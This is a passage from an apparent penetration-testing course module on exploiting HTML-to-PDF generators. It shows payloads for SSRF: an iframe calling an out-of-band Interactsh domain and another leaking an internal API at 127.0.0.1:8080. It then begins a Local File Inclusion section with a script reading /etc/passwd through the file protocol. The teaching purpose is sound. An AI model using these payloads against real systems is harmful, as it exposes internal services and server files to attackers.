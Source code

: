 ```html
<iframe src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest3"></iframe>

```

Injecting the three payloads and generating a PDF results in three requests to our `Interactsh` domains, such that we successfully confirmed SSRF with all three payloads:

![](bKilSFAjqj55.png)

Furthermore, looking at the generated PDF, we can see that the injected iframe contains the HTTP response sent by `Interactsh`:

![image](r4jx7LeEz6Xn.png)

Thus, we do not have a blind SSRF vulnerability but a regular SSRF, which is significantly more severe as it allows us to exfiltrate data more easily. For instance, we can make a request to any internal endpoint, and get the response displayed to us. As an example, we can leak data from an internal API like so:

```html
<iframe src="http://127.0.0.1:8080/api/users" width="800" height="500"></iframe>

```

The generated PDF contains the response from the internal API, potentially revealing sensitive information to us that we are unable to access externally:

![image](PcPmWgxPbCpL.png)

For more details on SSRF exploitation, check out the [Server-side Attacks module](https://academy.hackthebox.com/module/details/145).

* * *

## Local File Inclusion

Another powerful vulnerability we can potentially exploit with the help of PDF generation libraries is `Local File Inclusion` ( `LFI`). There are multiple HTML elements we can try to inject to read local files on the server.

#### With JavaScript Execution

If the server executes our injected JavaScript, we can read local files using [XmlHttpRequests](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest) and the `file` protocol, resulting in a payload similar to the following:

```html
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(this.responseText)
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>

```
